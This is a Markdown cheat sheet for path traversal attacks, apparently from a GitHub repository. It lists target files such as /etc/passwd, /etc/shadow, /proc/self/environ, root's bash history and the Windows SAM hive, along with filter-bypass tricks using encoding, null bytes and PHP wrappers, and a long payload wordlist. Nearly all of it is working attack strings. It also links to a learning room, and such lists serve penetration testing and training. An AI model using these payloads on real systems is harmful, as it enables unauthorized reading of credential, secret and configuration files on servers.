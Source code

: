 # Path Traversal Cheat Sheet
-[Common Paths to Read](#common-paths-to-read)
-[Common Method](#common-method)
-[Bypassing Defence Mechanism](#bypassing-defence-mechanism)
-[File Extension with Null Byte Bypass](#file-extension-with-null-byte-bypass)
-[Linux Path Traversal Payloads](#linux-path-traversal-payloads) 
-[Windows Path Traversal Payloads](#windows-path-traversal-payloads)
-[URL Encoded Variants](#url-encoded-variants)
-[Wordlist](#wordlist)
-[External Cheat Sheet](#external-cheat-sheet)
-[To Learn](#to-learn)
### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>

### File extension with null byte bypass
```Note:``` Don't forget to adjust the file with extension. Ex: ```/etc/passwd%00.png```
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
### Linux Path Traversal Payloads
```
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
```
### Windows Path Traversal Payloads
```
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
```
### URL Encoded Variants
```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### Wordlist
```txt
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
